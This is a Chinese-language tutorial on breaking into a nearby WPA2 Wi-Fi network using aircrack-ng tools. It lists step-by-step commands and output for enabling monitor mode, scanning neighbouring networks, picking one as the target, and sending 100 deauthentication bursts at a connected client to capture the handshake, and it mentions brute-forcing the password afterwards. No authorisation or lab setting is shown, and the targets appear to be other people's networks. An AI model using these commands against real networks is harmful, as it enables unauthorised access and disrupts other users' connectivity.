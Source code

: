 ```yaml
---
title: 渗透攻击目标无线网络
date: 2024-05-19
---
```


1：确认网卡名称 `iwconfig`

2：设置监听模式：`airmon-ng start wlan0`

> 注意！
>
> 这里如果出错：ERROR adding monitor mode interface: command failed: Operation not supported (-95)。
>
> 这是博通的一个问题，可以通过以下方式解决。
>
> `sudo rmmod brcmfmac`
>
> `sudo modprobe brcmfmac`

3：扫描附近 WIFI：`airodump-ng wlan0mon`，例如扫描到以下结果：

```shell
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 58:41:20:A9:B8:F6  -82        3        0    0   1  540   WPA2 CCMP   PSK  TP-LINK_B8F6ZM
 E2:95:49:AE:9D:CB  -83        3        0    0   1  400   WPA2 CCMP   PSK  HUAWEI-1A1HZ3
 74:45:2D:21:17:E8  -83        2        0    0   6  360   WPA2 CCMP   PSK  HUAWEI-888
 24:06:F2:15:BB:11  -67        5        0    0  10  130   WPA2 CCMP   PSK  CU_PsRx
 BC:54:FC:29:3E:0A  -85        2        0    0  13  270   WPA2 CCMP   PSK  MERCURY_6413
 B0:45:02:86:79:7C  -81        4        0    0   6  360   WPA2 CCMP   PSK  HUAWEI-0E1H2P
```

以下例子以 ` 74:45:2D:21:17:E8  -83        2        0    0   6  360   WPA2 CCMP   PSK  HUAWEI-888` 为例。

4：监听某个 WIFI 的流量：`airodump-ng -w tplink -c 6 --bssid  74:45:2D:21:17:E8 wlan0mon`，其中 `-w` 就用固定值即可，伪装一下， `-c` 是信道，`--bssid` 就是我们要渗透的无线热点的 MAC。

我们得到以下客户端：

```shell
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 74:45:2D:21:17:E8  -74  48      186       11    0   6  360   WPA2 CCMP   PSK  HUAWEI-888

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 74:45:2D:21:17:E8  E0:BA:AD:27:9A:00   -1    1e- 0      0        1
```

不要关闭这个窗口！

5：`一定要新开一个窗口!` 来攻击这个无线的客户端来抓取握手包，这个过程中客户端会不停的尝试连接 WIFI，网络状态是无法上网的，所以可以认为是一种另类的攻击方式，当然我们不想要攻击客户端，我们要的是渗透。
这里的 `-0` 代表攻击次数，可以多一点。`-a` 代表 WIFI 的 MAC，`-c` 就是这个 WIFI 下面客户端的 MAC。

```shell
$ sudo aireplay-ng -0 100 -a 74:45:2D:21:17:E8 -c E0:BA:AD:27:9A:00 wlan0mon
05:35:34  Waiting for beacon frame (BSSID: 74:45:2D:21:17:E8) on channel 6
05:35:34  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:35  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:35  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:36  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:36  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 1 ACKs]
05:35:37  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:38  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:38  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 1 ACKs]
05:35:39  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:39  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:40  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:40  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:41  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:41  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
05:35:42  Sending 64 directed DeAuth (code 7). STMAC: [E0:BA:AD:27:9A:00] [ 0| 0 ACKs]
```

6：回到之前的窗口，这时候我们可以看到 WIFI 状态中客户端有很多 `Lost`：

```shell
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 74:45:2D:21:17:E8  -40  51      438       97    0   6  360   WPA2 CCMP   PSK  HUAWEI-888

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 74:45:2D:21:17:E8  E0:BA:AD:27:9A:00  -82    1e- 1   1030    29437
```

如果出现 `WPA handshake: E0:BA:AD:27:9A:00` 字样就代表握手包已经抓取到了，也会根据提示保存在 `xxx.cap` 文件中。

7：啊，接下去就是爆破这个 `xxx.cap` 文件的过程了，太黑了，就不说了，爆破完了就能获取到这个 WIFI 的连接密码。
